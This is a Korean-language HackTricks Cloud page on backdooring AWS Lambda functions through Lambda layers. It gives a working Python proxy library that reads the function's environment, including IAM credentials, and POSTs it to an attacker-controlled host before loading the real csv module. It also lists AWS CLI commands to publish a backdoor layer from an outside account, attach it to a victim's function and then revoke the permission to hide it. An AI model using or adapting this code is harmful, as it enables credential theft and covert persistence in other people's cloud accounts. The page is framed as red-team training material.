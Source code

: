 # AWS - Lambda Layers Persistence

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배우세요!</summary>

다른 HackTricks 지원 방법:

- **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>

## Lambda Layers

Lambda 레이어는 **추가 코드** 또는 다른 콘텐츠를 포함할 수 있는 .zip 파일 아카이브입니다. 레이어에는 라이브러리, [사용자 정의 런타임](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), 데이터 또는 구성 파일을 포함할 수 있습니다.

함수 당 **다섯 개의 레이어를 포함**할 수 있습니다. 함수에 레이어를 포함하면 **콘텐츠가 실행 환경의 `/opt` 디렉토리로 추출**됩니다.

**기본적으로** 생성하는 **레이어**는 **AWS 계정에 대해 비공개**입니다. 레이어를 다른 계정과 **공유**하거나 레이어를 **공개**로 만들 수 있습니다. 다른 계정이 게시한 레이어를 함수가 사용하는 경우, 함수는 **삭제된 레이어 버전을 계속 사용하거나 레이어에 대한 액세스 권한이 취소된 후에도 사용**할 수 있습니다. 그러나 삭제된 레이어 버전을 사용하여 새 함수를 생성하거나 함수를 업데이트할 수는 없습니다.

컨테이너 이미지로 배포된 함수는 레이어를 사용하지 않습니다. 대신 이미지를 빌드할 때 선호하는 런타임, 라이브러리 및 기타 종속성을 컨테이너 이미지에 패키징합니다.

### Python 로드 경로

람다에서 Python이 사용할 로드 경로는 다음과 같습니다:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**두 번째**와 세 번째 **위치**가 **람다 레이어**가 파일을 압축 해제하는 디렉토리로 차지하는지 확인하십시오: **`/opt/python/lib/python3.9/site-packages`** 및 **`/opt/python`**

{% hint style="danger" %}
공격자가 사용 중인 람다 **레이어**에 **백도어**를 설치하거나 **실행 중에 일반 라이브러리가 로드될 때 임의의 코드를 실행하는 레이어를 추가**한다면, 각 람다 호출마다 악성 코드를 실행할 수 있게 될 것입니다.
{% endhint %}

따라서 요구 사항은 다음과 같습니다:

* 피해자 코드에서 **로드된 라이브러리**를 확인합니다.
* **람다 레이어**로 **프록시 라이브러리를 생성**하여 **사용자 정의 코드를 실행**하고 **원래** 라이브러리를 **로드**합니다.

### 사전로드된 라이브러리

{% hint style="warning" %}
이 기술을 남용할 때 어려움을 겪었습니다: 일부 라이브러리는 파이썬 런타임에서 코드가 실행될 때 **이미 로드되어 있습니다**. `os`나 `sys`와 같은 것들을 찾을 것으로 예상했지만 **`json` 라이브러리조차 로드되어 있었습니다**.\
이 지속성 기술을 남용하려면 코드가 실행될 때 **로드되지 않은 새 라이브러리를 로드**해야 합니다.
{% endhint %}

다음과 같은 파이썬 코드로 람다에서 **사전로드된 라이브러리 목록**을 얻을 수 있습니다:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
그리고 이것이 **목록**입니다 (라이브러리들이 이미 있는지 확인하십시오. `os`나 `json`과 같은 라이브러리들이 있는지 확인).
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
그리고 이것은 **lambda에 기본으로 설치된 라이브러리 목록**입니다: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

이 예에서는 대상 코드가 **`csv`**를 가져오고 있다고 가정합니다. **`csv` 라이브러리의 가져오기를 백도어**할 것입니다.

이를 위해, 우리는 **csv 디렉토리를 만들 것**이며, 그 안에 **`__init__.py`** 파일을 만들 것입니다. 이 디렉토리는 lambda에서 로드되는 경로에 있어야 합니다: **`/opt/python/lib/python3.9/site-packages`**\
그런 다음, 람다가 실행되고 **csv를 로드하려고 시도할 때, 우리의 `__init__.py` 파일이 로드되고 실행**될 것입니다.\
이 파일은 다음을 수행해야 합니다:

* 페이로드 실행
* 원래 csv 라이브러리 로드

우리는 다음과 같이 둘 다 수행할 수 있습니다:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
그럼, 이 코드를 **`python/lib/python3.9/site-packages/__init__.py`** 경로에 넣은 후 람다 레이어로 추가하세요.

이 코드는 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)에서 찾을 수 있습니다.

통합된 페이로드는 **람다 컨테이너의 재설정(코드 변경 또는 콜드 람다) 후 처음으로 호출될 때 IAM 자격 증명을 서버로 전송**하지만 **다른 기술**도 통합될 수 있습니다:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 외부 레이어

람다 레이어를 **외부 계정에서 사용**할 수 있음에 유의하십시오. 또한 람다는 권한이 없어도 외부 계정에서 레이어를 사용할 수 있습니다.\
또한 람다가 가질 수 있는 **최대 레이어 수는 5개**입니다.

따라서 이 기술의 다양성을 향상시키기 위해 공격자는 다음을 수행할 수 있습니다:

* 사용자의 기존 레이어에 백도어 설치 (외부 요소 없음)
* **자신의 계정**에서 **레이어를 생성**하고 **피해 계정에 레이어 사용 권한 부여**, 피해자의 람다에서 **레이어 구성** 및 **권한 제거**.
* **람다**는 여전히 **레이어를 사용**할 수 있고 피해자는 **레이어 코드를 다운로드하는 쉬운 방법이 없을 것**입니다(람다 내에서 rev 쉘을 획들하는 것 외).
* 피해자는 **`aws lambda list-layers`**를 사용하여 **외부 레이어를 볼 수 없을 것**입니다.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 영웅이 될 때까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* 해킹 트릭을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
